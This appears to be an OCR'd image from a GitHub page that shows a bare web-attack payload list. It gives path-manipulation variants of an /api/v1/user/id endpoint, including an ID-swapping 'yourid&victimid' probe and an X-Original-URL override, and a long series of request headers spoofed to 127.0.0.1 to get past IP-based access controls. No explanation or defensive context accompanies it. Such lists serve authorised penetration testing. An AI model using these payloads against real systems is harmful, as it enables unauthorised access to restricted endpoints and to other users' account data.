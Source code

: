# tricks on /api/v1/user/id
/api/v1/user/id.json\
/api/v1/user/id?\
/api/v1/us%65r/id/\
/api/v1/user/id/\
/api/v2/user/id\
/api/v1/user/id&accountdetail\
/api/v1/user/yourid&victimid\
X-Original-URL: /api/v1/user/id/\

# headers
Base-Url: 127.0.0.1\
Client-IP: 127.0.0.1\
Http-Url: 127.0.0.1\
Proxy-Host: 127.0.0.1\
Proxy-Url: 127.0.0.1\
Real-Ip: 127.0.0.1\
Redirect: 127.0.0.1\
Referer: 127.0.0.1\
Referrer: 127.0.0.1\
Refferer: 127.0.0.1\
Request-Uri: 127.0.0.1\
Uri: 127.0.0.1\
Url: 127.0.0.1\
X-Client-IP: 127.0.0.1\
X-Custom-IP-Authorization: 127.0.0.1\
X-Forward-For: 127.0.0.1\
X-Forwarded-By: 127.0.0.1\
X-Forwarded-For-Original: 127.0.0.1\
X-Forwarded-For: 127.0.0.1\
X-Forwarded-Host: 127.0.0.1\
X-Forwarded-Port: 443\
X-Forwarded-Port: 4443\
X-Forwarded-Port: 80\
X-Forwarded-Port: 8080\
X-Forwarded-Port: 8443\
X-Forwarded-Scheme: http\
X-Forwarded-Scheme: https\
X-Forwarded-Server: 127.0.0.1\
X-Forwarded: 127.0.0.1\
X-Forwarder-For: 127.0.0.1\
X-Host: 127.0.0.1\
X-Http-Destinationurl: 127.0.0.1\
X-Http-Host-Override: 127.0.0.1\
X-Original-Remote-Addr: 127.0.0.1\
X-Original-Url: 127.0.0.1\
X-Originating-IP: 127.0.0.1\
X-Proxy-Url: 127.0.0.1\
X-Real-Ip: 127.0.0.1\
X-Remote-Addr: 127.0.0.1\
X-Remote-IP: 127.0.0.1\
X-Rewrite-Url: 127.0.0.1\
X-True-IP: 127.0.0.1
